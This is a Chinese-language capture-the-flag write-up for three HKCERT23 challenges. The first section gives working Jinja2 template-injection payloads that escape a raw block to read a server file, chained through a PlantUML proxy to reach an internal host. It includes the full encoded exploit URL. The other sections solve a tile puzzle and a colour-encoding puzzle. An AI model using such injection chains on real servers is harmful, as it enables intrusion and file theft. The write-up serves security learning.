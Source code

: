```yaml
---
marp: true
title: WriteUps for HKCERT23 by liyanqwq @ T0093 - NuttyShell Blue
---
```


<style>
    :root {
        font-family: "HarmonyOS Sans TC"
    }
</style>

# WriteUps for HKCERT23

T0093 - NuttyShell Blue

[Online Version @ GitHub](https://github.com/liyanqwq/ctf-writeups/tree/main/2023/HKCERT23)

---

### Probably Unknown's Markup Language

通過觀察 `docker-compose-yml`，我們發現，題目給出的 plamtUML 實例可以通過域名 `puml.local` 來訪問載有 flag 的 Web 服務。

閲讀 [plantUML 文檔](https://plantuml.com/server)，plantUML 可以使用内置的 proxy 功能從 URL 中解析 plantUML 代碼。

API 格式如下：`http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=<url (url encoded)>`

下面我們閲讀 `web/server.py`，根據源代碼内容，我們發現目標 Web 服務存在 Flask SSTI 漏洞，但利用 `{% raw %}` 阻止注入。

漏洞利用方式如下：`http://puml.local/?<payload (url encoded)>`

---

首先，我們構造以下 Payload：

```
{% endraw %}
@startuml
a:{{''.__class__.__mro__[1].__subclasses__()}}
@enduml
{% raw %}
```

根據返回的 List，我們可以查找到 `<class '_frozen_importlib._ModuleLock'>` 處在下標為 `100` 的位置。

---

考慮到文件存儲在 `/proof.sh`，我們構造以下 Payload：

```
{% endraw %}
@startuml
a:{{''.__class__.__mro__[1].__subclasses__()[100].__init__.__globals__.__builtins__['open']('/proof.sh').read()}}
@enduml
{% raw %}
```

經過 URL Encode，得到如下 Payload URL：

```
http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=http://puml.local/?puml=%250A%7B%2525%
2520endraw%2520%2525%7D%250A@startuml%250Aa:%7B%7B%2527%2527.__class__.__mro__%5B1%5D.__subcla
sses__()[100].__init__.__globals__.__builtins__[%27open%27](%27/proof.sh%27).read()%7D%7D%250A
@enduml%250A%7B%2525%2520raw%2520%2525%7D%250A
```

---

訪問 URL，得到 Flag。

![1699885332541](image/puml/1.png)

---

### Wang123

Wang123 是一個拼圖題目。

現在我們來看一下 fake flag 的構造過程：

![1699885443604](image/wang123/1699885443604.png)

---

從 fake flag 的構造中，並參考[王氏磚](https://zh.wikipedia.org/zh-hk/%E7%8E%8B%E6%B0%8F%E7%A3%9A)的有關知識，我們可以發現，flag 的構造由 fake 四個塊開始，依次向下和向右填充區塊。

每個區塊的要求是：

- 上面的部分和上面區塊的下面部分相同

- 左面的部分和左面區塊的右面部分相同

- 如果沒有上面的區塊，假定上面區塊的下面部分為 `#`

- 如果沒有左面的區塊，假定左面的區塊的右面部分爲空

閲讀題面：

`fake flag is faker than real flag, so what is the real flag?`

可以推斷出 real flag 產生自 real。

---

現在我們開始拼圖。

![1699885910694](image/wang123/1699885910694.png)

考慮到上面部分為 `#` 的區塊的特殊性，我們將簡化一些拼圖步驟：

---

![1699886063463](image/wang123/1699886063463.png)

得到 flag `hkcert23{3hackkc3er}`。

---

### Tuning Keyboard 4

這個題目的附件只給了一個 html 文件。

通過觀察文件我們可知，svg 中的四個 polygon 中各有一個 `fill animate` 的值過於特殊。

三個如此精確的 `hsl()` 格式的顔色？可能蘊含著特殊信息。

將第一個顔色轉成 `hex` 格式，得到 `0x614774`，Base64 解碼結果爲 `hk`。

但將第二個顔色轉成 `hex` 格式後附加進去，照例操作，並未得到有效結果。

怎麽辦？

我們發現，如果將第二個 polygon 中的第一個顔色轉換得來的 hex code 附加進去，進行 Base64 解碼，則可以得到 `hkce`。

---

下面給出一個猜想：目標 hex code 的組合方式如下（用 `1,1` 代表第一個 polygon 的第一個顔色 `hex code`）：

`1,1 2,1 3,1 4,1 1,2 2,2 3,2 4,2 1,3 2,3 3,3 4,3`

進行組合，得到 hex code 如下：`0x6147746a5a584a304d6a4e374f5463304e7a4d314e7a4a66614746765833426e66513d3d`

進行 Base64 解碼得：`hkcert23{97473572_hao_pg}`，即爲所需 flag。

另：鑒於有反饋未能復現本 Write-Up 中的顔色轉換，給出解答如下。

`hsl()` 格式的顔色的 `h` 部分使用的是弧度制，在部分綫上轉換中可能出錯。

一種可能的解法是，將顔色寫入 css 文件，在瀏覽器中打開，使用内置工具轉換。

當然，我直接將顔色寫入了 css 文件，並使用了 VSCode 内置的顔色查看工具進行轉換。